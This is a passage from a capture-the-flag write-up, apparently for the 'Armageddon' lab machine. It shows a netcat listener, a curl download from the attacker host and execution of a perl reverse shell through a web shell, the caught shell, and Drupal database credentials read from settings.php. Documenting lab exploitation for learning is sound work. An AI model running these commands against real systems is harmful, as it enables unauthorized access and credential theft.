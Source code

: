 First we start a Netcat listener on port 443 of the attacking machine via `sudo nc -lnvp 443`, and then use the web shell we've achieved on the victim machine to download and execute our perl reverse shell,   

Victim downloads and executes reverse shell.  
```
armageddon.htb>> curl http://10.10.14.3/perl-reverse-shell.pl --output shell.pl
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3712  100  3712    0     0   4141      0 --:--:-- --:--:-- --:--:--  4138
armageddon.htb>> perl shell.pl
Content-Length: 0
Connection: close
Content-Type: text/html

Content-Length: 40
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.3:443<p>
armageddon.htb>>
```

Attacker catches shell.
```
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo nc -lnvp 443             
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.233] 34110
 19:18:10 up  2:32,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
/
apache: cannot set terminal process group (-1): Inappropriate ioctl for device
apache: no job control in this shell
apache-4.2$
```

## User Flag  
The first thing to check after compromising a web application is often the content of its database. We'll examine Drupal's `settings.php` file to view the database credentials,  
```PHP
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
